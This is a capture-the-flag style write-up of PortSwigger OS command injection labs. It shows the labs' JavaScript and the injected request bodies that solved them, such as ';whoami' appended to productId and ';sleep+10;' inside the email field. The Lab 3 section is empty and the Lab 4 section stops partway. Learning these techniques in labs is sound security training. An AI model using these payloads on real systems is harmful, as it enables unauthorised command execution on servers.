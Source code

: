 # OS command injection

Get detail at [here](https://portswigger.net/web-security/os-command-injection)

---

[Lab 1](https://portswigger.net/web-security/os-command-injection/lab-simple)

Description of this lab: execute the whoami command to determine the name of the current user

Check the source code, we can see in js folder having 2 file:

 - stockCheckPayload.js
    ```js
        window.contentType = 'application/x-www-form-urlencoded';

        function payload(data) {
            return new URLSearchParams(data).toString();
        }
    ```

 - stockCheck.js
    ```js
        document.getElementById("stockCheckForm").addEventListener("submit", function(e) {
            checkStock(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
            e.preventDefault();
        });

        function checkStock(method, path, data) {
            const retry = (tries) => tries == 0
            ? null
            : fetch(
                path,
                    {
                        method,
                        headers: { 'Content-Type': window.contentType },
                        body: payload(data)
                    }
            )
            .then(res => res.status === 200
                ? res.text().then(t => isNaN(t) ? t : t + " units")
                : "Could not fetch stock levels!"
            )
            .then(res => document.getElementById("stockCheckResult").innerHTML = res)
            .catch(e => retry(tries - 1));

            retry(3);
        }
    ```

Morever input (variable data) which is sent to server has no validate. Using burp suite to see what happen when clicking on button `Check stock`, website will send payload like this `productId=1&storeId=1` to server, and response of server is a number. Try to expand payload with some basic os command injection. The final payload is `productId=1;whoami&storeId=1`, using repeater to send this to server and solved the lab.

[Lab 2](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Description of this lab: exploit the blind OS command injection vulnerability to cause a 10 second delay

This lab contains feedback form, using burp suite to inspect when fill in form. After we submit form, website will send payload like this `csrf=QaxMCM25M0zUFiWZNvIOEfUkTjeLK3tm&name=demo&email=demo%40demo.demo&subject=demo&message=demo%0A` to server. Check at code, and we can found this code processing data to server. 

submitFeedback.js
```js
    document.getElementById("feedbackForm").addEventListener("submit", function(e) {
        submitFeedback(this.getAttribute("method"), this.getAttribute("action"), this.getAttribute("enctype"), this.getAttribute("personal"), new FormData(this));
        e.preventDefault();
    });

    function submitFeedback(method, path, encoding, personal, data) {
        var XHR = new XMLHttpRequest();
        XHR.open(method, path);
        if (personal) {
            XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));
        } else {
            XHR.addEventListener("load", displayFeedbackMessage());
        }
        if (encoding === "multipart/form-data") {
            XHR.send(data)
        } else {
            var params = new URLSearchParams(data);
            XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            XHR.send(params.toString())
        }
    }

    function displayFeedbackMessage(name) {
        return function() {
            var feedbackResult = document.getElementById("feedbackResult");
            if (this.status === 200) {
                feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
                feedbackForm.reset();
            } else {
                feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
            }
        }
    }
```

We can exploit input with command `sleep 10` to delay 10 seconds, modify payload like this `name=demo&email=demo%40demo.demo;sleep+10;&subject=demo&message=demo%0A`, if using only one `;` like previous lab, this exploit can't work correctly, so we need to add more beacause it has something at the back. Sending this payload with burp repeater and solved the lab.


[Lab 3](#)

[Lab 4](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Description of this lab: exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator

Do the same as lab 2. Firstly, using this command `nslookup` to look up DNS, get address of Burp Collaborator
